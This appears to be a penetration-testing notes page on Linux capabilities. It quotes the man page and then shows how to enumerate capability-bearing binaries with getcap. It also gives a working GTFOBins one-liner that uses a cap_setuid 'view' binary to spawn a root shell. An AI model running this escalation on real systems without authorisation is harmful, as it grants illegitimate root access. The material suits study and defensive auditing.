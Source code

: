 # Capabilities

> For the purpose of performing permission checks, traditional UNIX implementations distinguish two categories of processes: privileged processes (whose effective user ID is 0, referred to as superuser or root), and unprivileged processes (whose effective UID is nonzero). Privileged processes bypass all kernel permission checks, while unprivileged processes are subject to full permission checking based on the process's credentials (usually: effective UID, effective GID, and supplementary group list).&#x20;
>
> Starting with Linux 2.2, Linux divides the privileges traditionally associated with superuser into distinct units, known as capabilities, which can be independently enabled and disabled. Capabilities are a per-thread attribute.

From the Linux capabilities manual page: [https://man7.org/linux/man-pages/man7/capabilities.7.html](https://man7.org/linux/man-pages/man7/capabilities.7.html)

### Get capabilities of the current user

```bash
$ getcap -r / 2>/dev/null
...
/usr/bin/ping = cap_net_raw+ep
/home/jarrett/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
...
```

Notice that both the binaries `/home/jarrett/vim` and `/home/ubuntu/view` has the `cap_setuid+ep` value set



With the commands found from GTFOBins ([https://gtfobins.github.io/gtfobins/view/#capabilities](https://gtfobins.github.io/gtfobins/view/#capabilities)), the `/home/ubuntu/view` binary can be used for privilege escalation:

```bash
# Assuming the system is using Python3
$ /home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

root# whoami
root
```

Notice that `/home/ubuntu/view` is used instead of simply `view` command
